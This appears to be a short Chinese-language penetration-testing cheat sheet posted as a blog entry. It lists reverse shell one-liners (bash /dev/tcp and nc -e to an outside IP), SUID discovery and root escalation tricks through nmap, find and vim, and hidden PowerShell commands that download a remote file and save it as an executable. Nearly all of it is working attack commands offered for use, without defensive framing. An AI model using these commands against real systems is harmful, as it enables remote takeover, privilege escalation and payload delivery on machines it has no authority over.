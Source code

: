 ```yaml
---
layout: post
title: Pentest Note / CheatSheet
---
```


## Linux

### 反弹shell

bash

```
bash -i >& /dev/tcp/10.10.10.2/1337 0>&1
```

nc

```
nc -e /bin/bash -t 10.10.10.2 1337
```

python非标准shell到标准shell

```
python -c "import pty;pty.spawn('/bin/bash')"
```

### 本地提权

#### suid

查找拥有suid权限位的文件

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
sudo -l
```

nmap

```
nmap --interactive
nmap> !sh
sh-3.2# whoami
root

msf exploit/unix/local/setuid_nmap

echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

find

```
touch test
find test -exec whoami \;
```

vim

```
:set shell=/bin/sh
:shell

sudo vim -c '!sh'
```



## Windows

### 下载执行

在某些低权限情况下只能使用这个命令，使用`-UseBasicParsing`避免调用IE解析DOM

`Invoke-WebRequest -Uri $url -OutFile $outfile -UseBasicParsing`

`powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://example.com/1.jpg','C:\1.exe')`

替代bitsadmin

`Start-BitsTransfer -Source $file -Destination C:\1.exe –Asynchronous`

### 本地提权

#### 可用工具

```
msf post/multi/recon/local_exploit_suggester 
https://github.com/bitsadmin/wesng
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
```
